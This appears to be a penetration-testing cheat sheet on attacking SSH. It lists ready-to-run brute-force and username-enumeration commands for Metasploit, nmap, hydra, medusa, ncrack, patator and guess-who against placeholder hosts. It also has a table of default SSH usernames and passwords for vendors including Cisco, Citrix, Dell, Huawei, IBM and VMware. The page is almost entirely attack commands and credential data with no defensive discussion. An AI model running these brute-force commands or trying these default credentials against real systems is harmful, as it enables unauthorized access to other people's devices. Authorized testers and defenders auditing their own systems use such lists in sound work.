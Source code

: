 <h2>SSH Credentials</h2>

<h3>SSH Brute Forcing</h3> 

```bash
#Metasploit ssh brute force
use auxiliary/scanner/ssh/ssh_login

#Metasploit username enumeration with brute force
use auxiliary/scanner/ssh/ssh_enumusers

#Nmap Brute Force
nmap -p 22 --script ssh-brute --script-args userdb=users.list,passdb=pass.list \--script-args ssh-brute.timeout=4s 10.10.x.x

#Other Brute Forcing Methods
hydra -L users.txt -P passwords.txt ssh://10.10.x.x -t 8
medusa -t 2 -T2 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -H /root/Desktop/host.txt -n 22 -M ssh
ncrack -g CL=2 -U users.list -P passwords.list -iL targetIPs.list -p ssh:22 -oA Results.txt
patator ssh_login host=10.10.x.x user=FILE0 password=FILE1 0=users.list 1=passwords.list persistent=0 -x ignore:mesg=’Authentication failed.’
./guess-who -l username -h 10.10.x.x -p 22 -2 < passwords.list (https://packetstormsecurity.com/groups/teso/guess-who-0.44.tgz)
```

<h3>SSH Default Credentials for Vendors</h3>

| Vendor | Username | Password |
| --- | --- | --- |
| APC | apc, device | apc |
| Brocade | admin | admin123, password, brocade, fibranne |
| Cisco | admin, cisco, enable, hsa, pix, pnadmin, ripeop, root, shelladmin | admin, Admin123, default, password, secur4u, cisco, Cisco, _Cisco, cisco123, C1sco!23, Cisco123, Cisco1234, TANDBERG, change_it, 12345, ipics, pnadmin, diamond, hsadb, c, cc, attack, blender, changeme |
| Citrix | root, nsroot, nsmaint, vdiadmin, kvm, cli, admin | C1trix321, nsroot, nsmaint, kaviza, kaviza123, freebsd, public, rootadmin, wanscaler |
| D-Link | admin, user | private, admin, user |
| Dell | root, user1, admin, vkernel, cli | calvin, 123456, password, vkernel, Stor@ge!, admin |
| EMC | admin, root, sysadmin | EMCPMAdm7n, Password#1, Password123#, sysadmin, changeme, emc |
| HP/3Com | admin, root, vcx, app, spvar, manage, hpsupport, opc_op | iMC123, pvadmin, passw0rd, besgroup, vcx, nice, access, config, 3V@rpar, 3V#rpar, procurve, badg3r5, OpC_op, !manage, !admin |
| Huawei | admin, root | 123456, admin, root, Admin123, Admin@storage, Huawei12#$, HwDec@01, hwosta2.0, HuaWei123, fsp200@HW, huawei123 |
| IBM | USERID, admin, manager, mqm, db2inst1, db2fenc1, dausr1, db2admin, iadmin, system, device, ufmcli, customer | PASSW0RD, passw0rd, admin, password, Passw8rd, iadmin, apc, 123456, cust0mer |
| Juniper | netscreen | netscreen |
| NetApp | admin | netapp123 |
| Oracle | root, oracle, oravis, applvis, ilom-admin, ilom-operator, nm2user | changeme, ilom-admin, ilom-operator, welcome1, oracle |
| VMware | vi-admin, root, hqadmin, vmware, admin | vmware, vmw@re, hqadmin, default |
